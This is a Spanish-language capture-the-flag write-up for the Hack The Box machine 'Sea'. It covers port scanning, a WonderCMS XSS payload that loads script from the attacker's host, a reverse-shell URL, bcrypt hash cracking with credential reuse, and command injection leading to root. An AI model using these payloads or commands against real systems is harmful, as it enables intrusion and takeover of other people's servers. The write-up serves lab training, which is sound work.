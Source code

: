 +++
author = "Andrés Del Cerro"
title = "Hack The Box: Sea Writeup | Easy"
date = "2024-08-12"
description = ""
tags = [
    "HackTheBox",
    "Sea",
    "Writeup",
    "Cybersecurity",
    "Penetration Testing",
    "CTF",
    "Reverse Shell",
    "Privilege Escalation",
    "RCE",
    "Exploit",
    "Linux",
    "Credentials Reuse",
    "Port Forwarding",
    "Decrypting Password",
    "HTTP Enumeration",
    "Server Side Request Forgery",
    "XSS",
    "Command Injection"
]

+++

# TCP Enumeration

```shell
$ rustscan -a 10.129.244.211 --ulimit 5000 -g
10.129.244.211 -> [80,22]
```

```shell
$ nmap -p80,22 -sCV 10.129.244.211 -oN allPorts
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-12 09:55 CEST
Nmap scan report for 10.129.244.211
Host is up (0.037s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 e3:54:e0:72:20:3c:01:42:93:d1:66:9d:90:0c:ab:e8 (RSA)
|   256 f3:24:4b:08:aa:51:9d:56:15:3d:67:56:74:7c:20:38 (ECDSA)
|_  256 30:b1:05:c6:41:50:ff:22:a3:7f:41:06:0e:67:fd:50 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Sea - Home
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.65 seconds
```

# UDP Enumeration
```shell
 sudo nmap --top-ports 1500 -sU --min-rate 5000 -n -Pn 10.129.244.211 -oN allPorts.UDP
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-12 09:56 CEST
Nmap scan report for 10.129.244.211
Host is up (0.036s latency).
Not shown: 1494 open|filtered udp ports (no-response)
PORT      STATE  SERVICE
18818/udp closed unknown
25402/udp closed unknown
37444/udp closed unknown
41638/udp closed unknown
48189/udp closed unknown
58419/udp closed unknown

Nmap done: 1 IP address (1 host up) scanned in 0.85 seconds
```

Solo vemos el puerto 22/TCP y 80/TCP, por lo cual el puerto 80 debe de ser el punto de entrada.

# HTTP Enumeration
Haciendo un `whatweb` podemos ver que se está utilizando PHP por detrás.

```shell
$ whatweb http://10.129.244.211
http://10.129.244.211 [200 OK] Apache[2.4.41], Bootstrap[3.3.7], Cookies[PHPSESSID], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.41 (Ubuntu)], IP[10.129.244.211], JQuery[1.12.4], Script, Title[Sea - Home], X-UA-Compatible[IE=edge]
```

Según ingresamos en el sitio web vemos un a imagen con un texto, velik71
![Write-up Image](images/Screenshot_1.png)

También descubrimos un dominio, `sea.htb`, lo añadimos al `/etc/hosts`
![Write-up Image](images/Screenshot_2.png)

Fuzzeando con `feroxbuster` encontramos varias rutas que me hacen pensar que existe un CMS detrás, pero aún no se cual.
![Write-up Image](images/Screenshot_3.png)

Investigando un poco, podemos encontrar este post.
![Write-up Image](images/Screenshot_4.png)

Y podemos deducir que por detrás se utiliza `WonderCMS`
![Write-up Image](images/Screenshot_5.png)

Ahora bien, necesito saber cual es el panel de inicio de sesión para intentar ganar acceso ya que exploits como [este](https://www.exploit-db.com/exploits/51805) necesita una cookie de sesión.

Buscando por foros vemos que por defecto el path para iniciar sesión es `/login` pero que podemos personalizarlo en el archivo `database.js`

Revisando el código del exploit mencionado anteriormente, vemos lo siguiente.
![Write-up Image](images/Screenshot_8.png)

Y al probar esa URL...
![Write-up Image](images/Screenshot_9.png)

# Foothold
Después de probar un rato, en el `contact.php` podemos introducir un sitio web nuestro y podemos ver que nos llegan solicitudes, por lo cual intentemos usar el exploit anteriormente mencionado.
![Write-up Image](images/Screenshot_11.png)

El exploit consiste en un XSS que cargará un script malicioso de nuestro lado que conseguirá subir una reverse shell.

Si todo sale bien, debería de subirse una revshell en esa ruta
![Write-up Image](images/Screenshot_13.png)

Después de un rato probando, probé con esta URL `http://sea.htb/"></form><script+src="http://10.10.14.13:8000/xss.js"></script><form+action="` . Y sorprendentemente funcionó.
![Write-up Image](images/Screenshot_12.png)

Ahora podemos ver que para mandarnos la revshell, debemos utilizar los parámetros `lhost` y `lport`

![Write-up Image](images/Screenshot_14.png)

Así que accediendo a `http://sea.htb/themes/revshell-main/rev.php?lhost=10.10.14.13&lport=443`..

¡Vemos que ganamos acceso!
![Write-up Image](images/Screenshot_15.png)

# User Pivoting
En el archivo `/data/database.js` podemos encontrar un hash.
![Write-up Image](images/Screenshot_16.png)

Deducimos que es el modo 3200 en `hashcat`
![Write-up Image](images/Screenshot_17.png)

Antes de empezar a crackear el hash, hay que tener en cuenta que las `\` sobran ya que es para escapar las `/`, así que las eliminamos.

Así queda el hash `$2y$10$iOrk210RQSAzNCx6Vyq2X.aJ/D.GuE4jRIikYiWrD3TM/PjDnXm4q`

¡Y conseguimos crackear la password!
![Write-up Image](images/Screenshot_18.png)

¡Y podemos migrar de usuario!
![Write-up Image](images/Screenshot_19.png)

Y leer la flag.
```shell
may@sea:~$ cat user.txt 
3290eed2bd498c56b...
```

# Privilege Escalation

Podemos encontrar un binario con permisos SUID interesante.
```shell
amay@sea:~$ file /opt/google/chrome/chrome-sandbox
/opt/google/chrome/chrome-sandbox: setuid ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=810fb5876a6ce41bb6431f7273efe24800978d66, stripped
```

También encontramos un servicio en el puerto 8080 interno de la máquina

```shell
$ netstat -tulnp
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 127.0.0.1:53901         0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:8080          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -                   
udp        0      0 127.0.0.53:53           0.0.0.0:*                           -                   
udp        0      0 0.0.0.0:68              0.0.0.0:*                           -         
```

Podemos ver que este servicio web es diferente al anterior.
```shell
amay@sea:~$ curl http://127.0.0.1:8080
Unauthorized access
```

Vamos a compartirnos este puerto con SSH para que el puerto 8080 de la máquina víctima se convierta en mi puerto 8080 de mi máquina de atacante.

```shell
$ sshpass -p 'mychemicalromance' ssh -L 8080:127.0.0.1:8080 amay@sea.htb
```

Y vemos que nos pide unas credenciales.
![Write-up Image](images/Screenshot_20.png)

Si probamos `amay:mychemicalromance`

![Write-up Image](images/Screenshot_21.png)

Cambiamos el puerto del proxy de `burpsuite` para que no choque con el servicio que nos hemos compartido..
![Write-up Image](images/Screenshot_22.png)

Analizando la función de `Analyze Log File` vemos que en la petición se tramita una ruta.

![Write-up Image](images/Screenshot_23.png)

Por lo cual quizás podemos insertar otra ruta distinta, o intentar inyectar un comando a nivel de sistema.

Nos ponemos en escucha de trazas ICMP con `tcpdump`

```shell
$ sudo tcpdump -i tun0 icmp
```

Y si intentamos inyectar un comando...
![Write-up Image](images/Screenshot_24.png)

¡Perfecto!
```shell
12:01:01.519973 IP sea.htb > 10.10.14.13: ICMP echo request, id 3, seq 1, length 64
12:01:01.519992 IP 10.10.14.13 > sea.htb: ICMP echo reply, id 3, seq 1, length 64
```

No se como que usuario voy a conseguir ganar acceso aún, pero vamos a mandarnos una revshell.

Con este payload nos mandamos la revshell
![Write-up Image](images/Screenshot_25.png)

Y ganamos acceso como `root`
![Write-up Image](images/Screenshot_26.png)

Podemos leer la flag de `root`
```shell
(remote) root@sea:/root/monitoring# cat /root/root.txt
d4be647341065f...
```

¡Y ya estaría!

Feliz Hacking! 🚀